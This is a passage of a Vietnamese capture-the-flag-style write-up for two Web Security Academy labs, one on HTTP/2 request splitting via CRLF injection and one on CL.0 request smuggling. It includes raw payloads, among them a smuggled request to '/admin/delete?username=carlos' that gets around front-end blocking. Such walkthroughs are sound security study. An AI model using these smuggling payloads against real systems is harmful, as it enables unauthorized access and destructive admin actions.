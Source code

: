 >![](https://i.imgur.com/8iLC6k1.png)


<hr>

### Bài 14: HTTP/2 request splitting via CRLF injection

>![](https://i.imgur.com/jA66zK4.png)

Bài này, các header về độ dài body được validate kĩ càng, tuy nhiên việc split các header trong request khiến lỗ hổng xảy ra.

Front-end trong quá trình rewrite HTTP/2 thành HTTP/1.1 sẽ viết cái http request của ta thành 2 request khác nhau (tách bởi /r/n/r/n)

```
foo: bar

    GET /x HTTP/1.1
    Host: 0ab2003a04ba4f44c1d18a3200a9008a.web-security-academy.net
```

>![](https://i.imgur.com/oV1SzJG.png)


<hr>

### Bài 15: CL.0 request smuggling

>![](https://i.imgur.com/3fwrHeX.png)

Bài lab này khai thác lỗ hổng khi mà backend server "cho rằng" request nhận được sẽ chỉ có dạng GET (không có body) => nó luôn mặc định content-length = 0. Trong khi đó front end server sử dụng `content-length` header để phân tách request 

=> nếu ta khai báo 1 `content-length` nhỏ hơn giá trị độ dài của request thật, front-end sẽ xử lý như là 2 request đẩy tới backend. Trong khi đó, backend vì cứ coi như request không có body nên nó sẽ phân tách các request bởi `/r/n/r/n`

Như payload dưới đây ta gửi đến, front-end sẽ nhận 2 request, thấy rằng không có request `/admin` nên không block, tuy nhiên backend coi như 3 request, nên trả về responses của cả 3 requests (1 sẽ nằm trên queue, 2 trả về cho client)

```http!
POST /resources/labheader/js/labHeader.js HTTP/1.1
Host: 0a4f00bc04fff9c2c04fbde500db0047.web-security-academy.net
Content-Length: 109

GET /admin/delete?username=carlos HTTP/1.1
Host: 0a4f00bc04fff9c2c04fbde500db0047.web-security-academy.net

GET /x HTTP/1.1
Host: 0a4f00bc04fff9c2c04fbde500db0047.web-security-academy.net

```


Kết quả:
